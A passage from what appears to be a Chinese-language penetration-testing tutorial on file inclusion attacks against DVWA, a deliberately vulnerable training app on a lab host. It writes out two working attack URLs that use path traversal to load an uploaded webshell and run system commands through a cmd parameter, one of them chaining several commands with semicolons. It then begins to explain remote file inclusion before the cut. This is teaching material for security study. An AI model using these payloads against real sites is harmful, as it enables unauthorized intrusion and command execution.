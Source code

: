 您需要向 webshell 传递一个带有要执行的命令的参数，但在文件包含中，被包含文件的代码与包含它的文件集成在一起，所以您不能只是按照使用说明添加`?cmd=command`。相反，您需要添加一个`cmd`参数，就像将其发送给包含页面一样：

```
http://10.7.7.5/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/simple-backdoor.php&cmd=uname+-a
```

![](img/00269.jpeg)

您还可以使用`;`（分号）作为分隔符，在单个调用中链接多个命令：

```
http://10.7.7.5/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/simple-backdoor.php&cmd=uname+-a;whoami;/sbin/ifconfig
```

![](img/00270.jpeg)

# 远程文件包含

**远程文件包含**（**RFI**）是一种攻击技术，利用应用程序允许从其他服务器包含文件的机制。这可能导致应用程序被欺骗以在攻击者控制的远程服务器上运行脚本。

RFI 的工作方式与 LFI 完全相同，唯一的区别是使用完整的 URL 而不是文件的相对路径，如下所示：
